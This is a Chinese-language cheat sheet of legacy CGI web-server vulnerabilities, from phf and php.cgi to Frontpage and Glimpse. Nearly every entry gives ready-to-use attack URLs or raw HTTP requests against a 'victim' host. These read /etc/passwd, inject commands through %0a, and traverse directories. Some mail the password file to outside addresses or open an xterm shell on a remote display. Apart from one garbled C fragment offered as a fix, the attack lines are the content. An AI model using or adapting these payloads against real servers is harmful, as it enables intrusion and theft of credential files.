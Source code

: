 描述：在NCSA 或者 Apache (1.1.1版本以内)非商业版本的Web Server中有一段程序util.c,允许黑客以root身份执行任何一个指令:

http://www.xxx.com/cgi-bin/phf?Qname=root%0Asome%20command%20here
http://www.victim.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd

　

名字：php.cgi 2.0 beta10 或更早版本
描述：包括缓存溢出漏洞，还有导致任何系统文件可以被入侵者读取的漏洞读nobody权限:

http://www.victim.com/cgi-bin/php.cgi?/etc/passwd
php.cgi2.1版本的只能读shtml文件了. 对于密码文件,同志们要注意一下,也许可能在/etc/master.passwd　　/etc/security/passwd等.

　

名字：whois_raw.cgi
描述：因为whois_raw.cgi作者的失误，这个CGI将使入侵者能够以您系统上启动httpd的用户的权限执行您系统上任意的命令:

http://www.victim.com/cgi-bin/whois_raw.cgi?fqdn=%0acat%20/etc/passwd

　

名字：faxsurvey
描述：在Linux S.u.S.E上/cgi-bin目录下的faxsurvey程序允许入侵者无须登录就能在服务器执行指令:

http://www.victim.com/cgi-bin/faxsurvey?/bin/cat%20/etc/passwd

　

名字：pfdispaly.cgi
描述：在Irix6.4或者更早版本的web服务器上，/cgi-bin/pfdisplay程序允许入侵者非法查看服务器上的文件:

lynx -source 'http://www.victim.com/cgi-bin/pfdispaly.cgi?/../../../../etc/motd'

pfdisplay.cgi还有另外一个漏洞可以执行命令:

lynx -dump http://www.victim.com/cgi-bin/pfdispaly.cgi?'%0a/bin/uname%20-a/'

lynx -dump http://victim/cgi-bin/pfdispaly.cgi?'%0A/usr/bin/X11/xclock%20-display%20evil:0.0/

　

名字：wrap
描述：/cgi-bin/wrap程序有两个漏洞，均允许入侵者获取服务器上文件的非法访问,如:

http://www.victim.com/cgi-bin/wrap?/../../../../../etc　

　


名字：www-sql
描述：www-sql存在于/cgi-bin/目录下，这将导致入侵可以越权访问被保护的文件.在你的浏览器里输入"http://your.server/protected/something.html",被要求输入帐号和口令.而有www-sql就不必了:

http://your.server/cgi-bin/www-sql/protected/something.html

解决方法：


while(FCGI_Accept() >= 0)
{

s = getenv("REDIRECT_STATUS");
if(!s) {
puts("Content-type: text/plain\r\n\r\nPHP/FI detected an internal error. Please inform sa@hogia.net of what you just did.\n");
exit(1);
}
s = getenv("PATH_TRANSLATED");

　

名字：view-source
描述：在cgi-bin目录下的view-source程序没有对输入进行安全检查，使入侵者可以查看服务器上的任何文件:

http://www.victim.com/cgi-bin/view-source?../../../../../../../etc/passwd

　

名字：campas
描述：在cgi-bin目录下的campas程序有一个毛病可以使入侵者随意查看server上的重要文件:

http://www.victim.com/cgi-bin/campas?%0acat%0a/etc/passwd%0a 或

telnet www.xxxx.net 80
Trying 200.xx.xx.xx...
Connected to venus.xxxx.net
Escape character is '^]'.
GET /cgi-bin/campas?%0acat%0a/etc/passwd%0a

　

名字：webgais
描述：/cgi-bin，目录下的webgais是GAIS搜索工具的一个接口,它有一个毛病使入侵者可以绕过程序的安全机制，执行系统命令:

telnet www.victim.com 80
POST /cgi-bin/webgais HTTP/1.0
Content-length: 85 (replace this with the actual length of the "exploit"line)
query=';mail+drazvan\@pop3.kappa.ro</etc/passwd;echo'&output=subject&domain=paragraph

　

名字：websendmail
描述：/cgin-bin目录下的websendmail程序允许入侵者执行一个系统指令：

telnet www.victim.com 80
POST /cgi-bin/websendmail HTTP/1.0
Content-length: xxx (should be replaced with the actual length of the
string passed to the server, in this case xxx=90)
receiver=;mail+your_address\@somewhere.org〈/etc/passwd;&sender=a&rtnaddr=a&subject=a&content=a

　

名字：handler
描述：IRIX 5.3, 6.2, 6.3, 6.4的/cgi-bin/handler程序存在缓存溢出错误，允许入侵者在server上远程执行一段程序:

telnet www.victim.com 80
GET /cgi-bin/handler/whatever;cat<tab>/etc/passwd| ?data=Download HTTP/1.0
GET /cgi-bin/handler/useless_shit;cat<tab>/etc/passwd/?data=DownloadHTTP/1.0
GET /cgi-bin/handler/blah;xwsh　-display　yourhost.com/?data=Download
GET /cgi-bin/handler/<tab>xterm<tab>-display〈tab>danish:0<tab>-e<tab>/bin/sh/<tab>?data=Download

注意,cat后是TAB键而不是空格,服务器会报告不能打开useless_shit,但仍旧执行下面命令.

　

名字：test-cgi or nph-test-cgi
描述：http://www.victim.com/cgi-bin/test-cgi?\whatever

http://www.victim.com/cgi-bin/test-cgi?\help&0a/bin/cat%20/etc/passwd

http://www.victim.com/cgi-bin/nph-test-cgi?/*

GET /cgi-bin/test-cgi?* HTTP/1.0
GET /cgi-bin/test-cgi?x *
GET /cgi-bin/nph-test-cgi?* HTTP/1.0
GET /cgi-bin/nph-test-cgi?x *
GET /cgi-bin/test-cgi?x HTTP/1.0 *
GET /cgi-bin/nph-test-cgi?x HTTP/1.0 *

　

名字：root or 'root
描述：对于某些BSD的apache可以:http://www.victim.com/root/etc/passwd

http://www.victim.com/'root/etc/passwd

　


名字：_vti_inf.html

描述： web根目录下存在_vti_inf.html文件,该文件是Frontpage extention server的特征,包含了一系列Frontpage Extention Server的重要信息;而且Frontpage Extention server是一个有很多漏洞的web服务,用它入侵者可能直接修改首页文件，如果你读http://www.victim.com/_vti_inf.html你将得到FP extensions的版本和它在服务器上的路径. 还有一些密码文件如:

http://www.victim.com/_vti_pvt/service.pwd
http://www.victim.com/_vti_pvt/users.pwd
http://www.victim.com/_vti_pvt/authors.pwd
http://www.victim.com/_vti_pvt/administrators.pwd

　

名字：edit.pl

描述： /cgi-bin/edit.pl有一个安全弱点,用下面这条命令就可以访问用户的配置情况

http://www.sitetracker.com/cgi-bin/edit.pl?account=&password=

　


名字：htmlscript
描述： 安装了htmlscript2.99x或者更早版本的服务器，存在一个毛病使入侵者可以查看服务器上的任何文件:

http://www.victim.com/cgi-bin/htmlscript?../../../../etc/passwd

　

名字：Vulnerability in Glimpse HTTP
描述：

telnet target.machine.com 80
GET /cgi-bin/aglimpse/80/IFS=5;CMD=5mail5fyodor\@dhp.com\</etc/passwd;eval$CMD;echo　HTTP/1.0
